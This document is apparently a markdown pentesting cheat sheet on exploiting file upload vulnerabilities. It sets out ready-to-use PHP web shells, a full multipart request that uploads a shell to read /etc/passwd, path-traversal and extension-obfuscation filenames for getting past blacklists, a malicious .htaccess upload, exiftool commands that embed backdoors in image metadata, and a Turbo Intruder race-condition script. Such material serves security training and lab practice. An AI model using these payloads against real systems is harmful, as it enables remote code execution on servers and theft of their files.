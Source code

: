 # 🟩 File Upload

When a web server allows users to upload files to its filesystem without validating

<mark style="color:green;">**"Content-Type" header:**</mark>

* simple text like name, address: "application/x-www-form-url-encoded"
* large amounts of binary data, like image or a PDF: "multipart/form-data"

<mark style="color:green;">**"**</mark><mark style="color:green;">**Content-Disposition" header:**</mark>

* If request message body is split into separate parts, each part contains a "Content-Disposition" header, which provides some basic information about the input field. and it has a "Content-Type" header which tells the server the MIME type of the data that was submitted using this input.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">PHP web shell upload</mark>

```http
// Send in a HTTP request body
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```
// Send in a HTTP request body
<?php echo system($_GET['command']); ?>

// Usage in HTTP GET request
GET /example/exploit.php?command=id HTTP/1.1 
```

**Example**

```http
// Edit HTTP request with "BurpSuit Proxy"

POST /my-account/avatar HTTP/1.1
Host: test.net
LOPLOP
Content-Type: multipart/form-data; boundary=---------------------------4714704787410783474211833593
Content-Length: 523
LOPLOP
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="avatar"; filename="f.php"
Content-Type: image/png

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="user"

TEST
-----------------------------4714704787410783474211833593
```

### <mark style="color:orange;">Web shell upload via path traversal</mark>

```
// Send file upload request:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

### <mark style="color:orange;">Overriding the server configuration</mark>

&#x20;Load a directory-specific configuration from a file and edit it:\
\- IIS Server: "web.config"\
\- Apache Server: ".htaccess"

### <mark style="color:orange;">Obfuscating file extensions</mark>

Most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques

**Example**\
In the "Content-Disposition" header, change the value of the filename parameter to:&#x20;

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

or

```
- exploit.pHp
- exploit.php.jpg
- exploit.php.
- exploit.p.phphp 
- using the URL encoding (or double URL encoding) for dots: exploit%2Ephp
- Add semicolons or URL-encoded null byte characters before the file extension: exploit.asp;.jpg or exploit.asp%00.jpg
- using multibyte unicode characters like xC0 x2E, xC4 xAE or xC0 xAE
```

### <mark style="color:orange;">Web shell upload via extension blacklist bypass (upload malicious .htaccess file)</mark>

Send request which upload file to server in Burp Repeater then:

* Change the value of the "**filename**" parameter to "**.htaccess**"
* Change the value of the "**Content-Type**" header to "**text/plain**"
* Replace payload with\
  `AddType application/x-httpd-php .l33t`
* Resend the request with your payload and its "**filename**" should be "**exploit.l33t**"
* Now web shell was successfully uploaded.

### <mark style="color:orange;">Remote code execution via polyglot web shell upload</mark>

```
// This adds your PHP payload to the image's Comment field

$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/path/secret_file') . ' END'; ?>" icon.png -o polyglot.php
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
```

### <mark style="color:orange;">Exploiting file upload race conditions</mark>

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata

**Example**

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.\
\
To solve this challenge, we can use **Turbo Intruder**. Turbo Intruder is a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''  # Post web shell to run your payload

    request2 = '''<YOUR-GET-REQUEST>'''    # Get web shell output
    
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### <mark style="color:orange;">Exploiting file upload vulnerabilities without remote code execution</mark>

#### <mark style="color:green;">Uploading malicious client-side scripts</mark>

If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads.

#### <mark style="color:green;">Exploiting vulnerabilities in the parsing of uploaded files</mark>

You know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.

